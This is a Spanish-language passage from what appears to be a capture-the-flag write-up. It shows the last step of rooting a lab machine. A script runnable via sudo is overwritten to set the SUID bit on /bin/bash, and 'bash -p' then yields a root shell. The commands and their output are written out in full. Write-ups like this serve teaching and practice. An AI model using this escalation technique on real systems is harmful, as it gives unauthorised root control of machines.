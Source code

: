 ```shell
rm /home/luciano/script.sh
```

Ahora crearemos el mismo archivo pero con este contenido:

> script.sh

```bash
#!/bin/bash

echo "Permisos SUID establecidos correctamente..."
chmod u+s /bin/bash
```

```shell
echo -e '#!/bin/bash\n\necho "Permisos SUID establecidos correctamente..."\nchmod u+s /bin/bash' > /home/luciano/script.sh
```

Y lo ejecutaremos:

```shell
sudo bash /home/luciano/script.sh
```

Info:

```
Permisos SUID establecidos correctamente...
```

Ahora lo ejecutaremos de la siguiente forma:

```shell
bash -p
```

Info:

```
bash-5.2# whoami
root
```

Con esto veremos que seremos `root` por lo que habremos terminado la maquina.
